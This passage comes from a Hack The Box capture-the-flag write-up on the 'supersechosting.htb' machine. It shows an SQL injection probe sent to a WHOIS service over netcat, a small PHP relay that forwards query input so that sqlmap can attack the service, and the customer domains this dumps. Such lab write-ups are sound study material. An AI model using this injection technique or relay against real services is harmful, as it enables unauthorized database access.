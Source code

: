 Sweet. So far so good. All the subdomains corroborates with the open ports. We'd better put them into `/etc/hosts`.

### WHOIS

Next up, we have WHOIS. Check out this little gem.


{% include image.html image_alt="06db5e00.png" image_src="/d2fa076e-05e6-4e08-93f8-225223643d3c/06db5e00.png" %}


Sure looks authentic. But, did you see the first line?

```
% SUPERSECHOSTING WHOIS server v0.6beta@MariaDB10.1.37
```

What is MariaDB doing there? If I had to guess, I would say that's an invitation to probe for SQL injection.

```
# echo "supersechosting.htb'" | nc 10.10.10.155 43
% SUPERSECHOSTING WHOIS server v0.6beta@MariaDB10.1.37
% for more information on SUPERSECHOSTING, visit http://www.supersechosting.htb
1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''supersechosting.htb'') limit 1' at line 1
```

Oh yeah. Armed with this knowledge, I wrote a funnel of sorts in PHP and host it with Apache.

```php
<?php

        $sock = fsockopen("10.10.10.155", 43, $errno, $errstr, 30);
        if (!$sock) {
                echo "$errstr ($errno)\n";
        } else {
                $domain = $_GET['d'];
                $domain .= "\r\n";
                fwrite($sock, $domain);
                while (!feof($sock)) {
                        echo fgets($sock);
                }
                fclose($sock);
        }

?>
```

Long story short, using `sqlmap` against `http://localhost/index.php?d=supersechosting.htb` yields the following.

```
SELECT domain from customers; [4]:
[*] justanotherblog.htb
[*] pwnhats.htb
[*] rentahacker.htb
[*] supersechosting.htb
```


[1]: https://www.hackthebox.eu/home/machines/profile/202
[2]: https://www.hackthebox.eu/home/users/profile/9631
[3]: https://www.hackthebox.eu/